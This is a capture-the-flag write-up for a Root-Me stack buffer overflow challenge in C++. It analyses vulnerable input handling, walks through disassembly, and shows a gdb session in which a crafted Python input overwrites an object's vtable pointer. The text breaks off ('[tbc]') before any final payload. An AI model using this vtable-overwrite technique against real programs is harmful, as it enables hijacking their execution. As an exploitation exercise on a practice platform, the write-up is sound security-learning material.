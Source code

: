 # ELF x86 - Stack buffer overflow - C++ vtables
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-C-vtables
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         Yes 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch20@challenge02.root-me.org    
Username	app-systeme-ch20
Password	app-systeme-ch20
```
First, let's identify the vulnerability. It presents in the **GetInput** function:
```c++
[... snip ...]
#define SIZE (80)
[... snip ...]
    void GetInput(int padding )  {
        memset(str ,' ' , SIZE  ); 
        fgets(str+padding,SIZE,stdin); 
    }
[... snip ...]
    char str[SIZE];
    formatter * m_pFormatter
[... snip ...]
```
The _str_ variable is a 80 byte long buffer. In the **GetInput** function, the **fgets** gets 80 bytes from the user. 
But, it won't put it at the start of the buffer. It would put it in an offset, according the given _padding_ variable.<br>
According to the program's flow, the _padding_ value can be 1-5:
```c++
printf("Padding : 1-5\r\n");
char size[4];
int padding  = atoi(fgets(size,4,stdin));
if (padding <0 || padding >5)
{
    printf ("Padding error\r\n");
    exit(0);
}
```
It's possible to overwrite 1-5 bytes after the **str** buffer.<br>
According to the title, in order to exploit the binary, we should overwrite a _VPTR_. Because the **display** function is called, and uses the **format** function, Let's analyze it:
```asm
   0x08048a02 <+0>:	push   ebp
   0x08048a03 <+1>:	mov    ebp,esp
   
   0x08048a05 <+3>:	sub    esp,0x18                     ; reserve 24 bytes in stack
   0x08048a08 <+6>:	mov    eax,DWORD PTR [ebp+0x8]      ; gets the str address
   0x08048a0b <+9>:	mov    eax,DWORD PTR [eax+0x50]     ; gets the end of str buffer (should be the formatter's address)
   0x08048a0e <+12>:	mov    eax,DWORD PTR [eax]          ; gets the data of the formatter
   0x08048a10 <+14>:	add    eax,0x8                      ; gets the formatter's format function
   0x08048a13 <+17>:	mov    ecx,DWORD PTR [eax]          ; stores the format function, for calling at 0x08048a25
   
   0x08048a15 <+19>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048a18 <+22>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048a1b <+25>:	mov    eax,DWORD PTR [eax+0x50]
   0x08048a1e <+28>:	mov    DWORD PTR [esp+0x4],edx
   0x08048a22 <+32>:	mov    DWORD PTR [esp],eax
   
   0x08048a25 <+35>:	call   ecx                          ; calling the format function
   0x08048a27 <+37>:	leave  
   0x08048a28 <+38>:	ret    
```
So basically, because the **format** function is right after the _str_ buffer, one can overwrite it with his own address (reminder - the vulnerability enables writing up to 5 bytes).
Let's verify it:
```gdb
(gdb) run < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Starting program: /challenge/app-systeme/ch20/ch20 < <(python -c "print '5\n1\n' + 'A'*75 + 'DDDD'")
Padding : 1-5


	Convert in : 
	  1: uppercase  
	  2: lowercase  
String to convert: 

Program received signal SIGSEGV, Segmentation fault.
0x08048a0e in MyStringFormatter::display() const ()
(gdb) info registers
eax            0x44444444	1145324612
ecx            0xbffffb15	-1073743083
edx            0xb7ee98a4	-1209100124
ebx            0x804b008	134524936
esp            0xbffffac0	0xbffffac0
ebp            0xbffffad8	0xbffffad8
esi            0x0	0
edi            0x0	0
eip            0x8048a0e	0x8048a0e <MyStringFormatter::display() const+12>
eflags         0x10286	[ PF SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) disass _ZNK17MyStringFormatter7displayEv
Dump of assembler code for function _ZNK17MyStringFormatter7displayEv:
   0x08048a02 <+0>:	push   %ebp
   0x08048a03 <+1>:	mov    %esp,%ebp
   0x08048a05 <+3>:	sub    $0x18,%esp
   0x08048a08 <+6>:	mov    0x8(%ebp),%eax
   0x08048a0b <+9>:	mov    0x50(%eax),%eax
=> 0x08048a0e <+12>:	mov    (%eax),%eax
   0x08048a10 <+14>:	add    $0x8,%eax
   0x08048a13 <+17>:	mov    (%eax),%ecx
   0x08048a15 <+19>:	mov    0x8(%ebp),%edx
   0x08048a18 <+22>:	mov    0x8(%ebp),%eax
   0x08048a1b <+25>:	mov    0x50(%eax),%eax
   0x08048a1e <+28>:	mov    %edx,0x4(%esp)
   0x08048a22 <+32>:	mov    %eax,(%esp)
   0x08048a25 <+35>:	call   *%ecx
   0x08048a27 <+37>:	leave  
   0x08048a28 <+38>:	ret    
End of assembler dump.
```
As you may see, the _eax_ is set to 0x44444444 and therefore the segfault. You may also see that the next 2 instructions will set _ecx_ to _eax_ as expected.<br>
Now that we (probably) can control the _eip_, let's do the basic stack exploitation (no ASLR nor NX).<br>
Let's look again at the assembly of the **display** function:
```asm
   0x08048a08 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048a0b <+9>:	mov    eax,DWORD PTR [eax+0x50]
   0x08048a0e <+12>:	mov    eax,DWORD PTR [eax]
   0x08048a10 <+14>:	add    eax,0x8
   0x08048a13 <+17>:	mov    ecx,DWORD PTR [eax]
```
[tbc]
